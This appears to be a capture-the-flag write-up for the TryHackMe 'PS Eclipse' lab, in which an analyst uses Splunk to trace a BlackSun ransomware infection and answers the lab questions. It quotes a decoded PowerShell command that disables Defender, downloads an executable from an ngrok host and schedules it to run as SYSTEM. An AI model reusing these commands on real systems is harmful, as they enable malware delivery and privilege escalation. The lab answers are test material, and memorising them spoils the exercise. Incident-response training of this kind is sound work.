









## PS Eclipse
Scenario : You are a SOC Analyst for an MSSP (Managed Security Service Provider) company called TryNotHackMe .
A customer sent an email asking for an analyst to investigate the events that occurred on Keegan's machine on Monday, May 16th, 2022 . The client noted that the machine is operational, but some files have a weird file extension. The client is worried that there was a ransomware attempt on Keegan's device. 

Your manager has tasked you to check the events in Splunk to determine what occurred in Keegan's device. 
Happy Hunting!
### Answer the questions below
#### Q1:A suspicious binary was downloaded to the endpoint. What was the name of the binary?
```bash
OUTSTANDING_GUTTER.exe
```
First to take a view i searched for powershell commands `Powershell | table Image TargetFilename`
.There was many logs.I looked at top 10 values of commandline.There was supicious command that was encoded in UTF 16 LE.
 
After decoding it was this command
```bash
Set-MpPreference -DisableRealtimeMonitoring $true;
wget http://886e-181-215-214-32.ngrok.io/OUTSTANDING_GUTTER.exe -OutputFile C:\Windows\Temp\OUTSTANDING_GUTTER.exe;
SCHTASKS /Create /TN "OUTSTANDING_GUTTER.exe" /TR "C:\Windows\Temp\COUTSTANDING_GUTTER.exe" /SC ONEVENT /EC Application /MO *[System/EventID=777] /RU "SYSTEM" /f;
SCHTASKS /Run /TN "OUTSTANDING_GUTTER.exe"
```
In this command we can see that it is a malicious command that is downloading very odd file from very odd url.
#### Q2:What is the address the binary was downloaded from? Add http:// to your answer & defang the URL.
```bash
hxxp[://]886e-181-215-214-32[.]ngrok[.]io
```
OK so in the same decoded command we can see the url http://886e-181-215-214-32.ngrok.io and defand it from this [website](https://defa.ng/).
#### Q3:What Windows executable was used to download the suspicious binary? Enter full path.
```bash
C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe
```
For this i filtered for Malicious binary name and Event code for 11 that is for file creation.
 
We can see that powershell was the one that downloaded the binary file.
#### Q4:What command was executed to configure the suspicious binary to run with elevated privileges?
```bash
"C:\Windows\system32\schtasks.exe" /Create /TN OUTSTANDING_GUTTER.exe /TR C:\Windows\Temp\COUTSTANDING_GUTTER.exe /SC ONEVENT /EC Application /MO *[System/EventID=777] /RU SYSTEM /f
```
Ok so for this i did quite the same thing as previous.I filter for malicious binary file and event id 1 and make a table for following fields.
* Image
* ParentImage
* Commandline
* ParentCommandline  
Use this query `OUTSTANDING_GUTTER.exe EventCode=1
| table Image ParentImage TargetFilename CommandLine ParentCommandline`
and if look at the logs we can see the command for privilage esclation.

#### Q5:What permissions will the suspicious binary run as? What was the command to run the binary with elevated privileges? (Format: User + ; + CommandLine)
```bash
NT AUTHORITY\SYSTEM;"C:\Windows\system32\schtasks.exe" /Run /TN OUTSTANDING_GUTTER.exe
```
In those same logs as previous we can easily see the command that execute the binary.

And for user if we look at the decoded command we can see that it is making it run as SYSTEM  
`Set-MpPreference -DisableRealtimeMonitoring $true;
wget http://886e-181-215-214-32.ngrok.io/OUTSTANDING_GUTTER.exe -OutputFile C:\Windows\Temp\OUTSTANDING_GUTTER.exe;
SCHTASKS /Create /TN "OUTSTANDING_GUTTER.exe" /TR "C:\Windows\Temp\COUTSTANDING_GUTTER.exe" /SC ONEVENT /EC Application /MO *[System/EventID=777] /RU "SYSTEM" /f;
SCHTASKS /Run /TN "OUTSTANDING_GUTTER.exe"`  
Write full user name which is NT AUTHORITY\SYSTEM.
#### Q6:The suspicious binary connected to a remote server. What address did it connect to? Add http:// to your answer & defang the URL.
```bash
hxxp[://]9030-181-215-214-32[.]ngrok[.]io
```
For this i used this query  
`OUTSTANDING_GUTTER.exe EventCode=22`
and look at the query name in left side panel.

I add http:// with this and defang it .

#### Q7:A PowerShell script was downloaded to the same location as the suspicious binary. What was the name of the file?
```bash
script.ps1
```
For this i knew the extension which is `ps1` and look for event id 11 and the directory is same as malicious binary which is `C:\\Windows\\Temp\`.So looking the target image we can see which one is malicious script.

Q8:The malicious script was flagged as malicious. What do you think was the actual name of the malicious script?
```bash
BlackSun.ps1
```
Copy the md5 hash of the file and paste in virus total.

#### Q8:A ransomware note was saved to disk, which can serve as an IOC. What is the full path to which the ransom note was saved?
```bash
C:\Users\keegan\Downloads\vasg6b0wmw029hd\BlackSun_README.txt
```
For this i just seaarch for txt to look at txt file and in the first log i got a txt file name as BlackSun_README which is same as previous questions answer
#### Q9:The script saved an image file to disk to replace the user's desktop wallpaper, which can also serve as an IOC. What is the full path of the image?
```bash
C:\Users\Public\Pictures\blacksun.jpg
```
For this i searched for multiple images extensions like png,svg,jpeg and jpg.But for jpg i got result and got the image name and path.
